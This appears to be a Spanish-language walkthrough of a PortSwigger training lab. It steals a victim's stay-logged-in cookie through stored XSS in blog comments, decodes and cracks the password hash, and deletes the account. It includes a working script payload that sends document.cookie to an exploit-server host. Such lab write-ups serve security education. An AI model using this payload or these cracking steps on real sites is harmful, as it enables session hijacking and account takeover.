 ```yaml
---
title: Authentication Lab 10
date: 2025-01-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Authentication
tags:
  - Authentication
  - Offline password cracking
image:
  path: /assets/img/Authentication-Lab-10/Portswigger.png
---
```


## Skills

- Offline password cracking

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Este `laboratorio` almacena el `hash de la contraseña` del usuario en una `cookie`. Además, contiene una `vulnerabilidad de XSS` en la `funcionalidad de comentarios`. Para `resolver` el `laboratorio`, debemos `obtener la cookie stay-logged-in` de `Carlos` mediante `XSS`, `crackear su hash de contraseña` y luego `iniciar sesión` como `carlos`. Finalmente, debemos `eliminar su cuenta` desde la página `Mi cuenta`. Podemos usar nuestras credenciales `wiener:peter` para iniciar sesión, el `nombre de usuario` de la `víctima` es `carlos` y podemos usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) para `crackear` la `contraseña`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Authentication-Lab-10/image_1.png)

Pulsamos sobre `My account`, nos `logueamos` usando las credenciales `wiener:peter` y marcamos la casilla de `Stay logged in`

![](/assets/img/Authentication-Lab-10/image_2.png)

Pulsamos en `View post` y vemos que hay una `sección` de `comentarios`

![](/assets/img/Authentication-Lab-10/image_3.png)

Vemos que hemos podido `inyectar código HTML`

![](/assets/img/Authentication-Lab-10/image_4.png)

Si vemos el `código fuente` nos damos cuenta que el código insertado en la `sección` de `comentarios` no se está `HTML encodeando` 

![](/assets/img/Authentication-Lab-10/image_5.png)

Nos dirigimos al `Exploit server` y copiamos la url `https://exploit-0a6800e703d4999e8022985501aa002c.exploit-server.net/exploit`, posteriormente vamos a publicar un comentario para `explotar` un `stored XSS` y así `obtener` la `cookie` del `usuario víctima`

```
<script>document.location='https://exploit-0a6800e703d4999e8022985501aa002c.exploit-server.net/exploit/'+document.cookie</script>
```

![](/assets/img/Authentication-Lab-10/image_6.png)

Una vez publicado nos dirigimos al `Exploit server` y abrimos el apartado de `logs` y vemos este `log`

![](/assets/img/Authentication-Lab-10/image_7.png)

Si `decodeamos` este `parámetro` de la cookie `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz` obtener el `nombre` de `usuario` y la `contraseña` del usuario `hasheada`

```
# echo 'Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz' | base64 -d  
carlos:26323c16d5f4dabff3bb136f2460a943 
```

Además de `crackear` la `contraseña` con `john` o `hashcat` podemos usar `rainbow tables` para `obtener` la `contraseña`, existen varias web que podemos usar como [https://crackstation.net/](https://crackstation.net/)

![](/assets/img/Authentication-Lab-10/image_8.png)

También podríamos `pegar` el `hash` en el `navegador` y `obtener` el `contenido` del `hash` de esta forma

![](/assets/img/Authentication-Lab-10/image_9.png)

Una vez tenemos el `usuario` y la `contraseña` ya podemos acceder `iniciar sesión` con las credenciales `carlos:onceuponatime` y `borrar` al `usuario carlos`

![](/assets/img/Authentication-Lab-10/image_10.png)

![](/assets/img/Authentication-Lab-10/image_11.png)

![](/assets/img/Authentication-Lab-10/image_12.png)
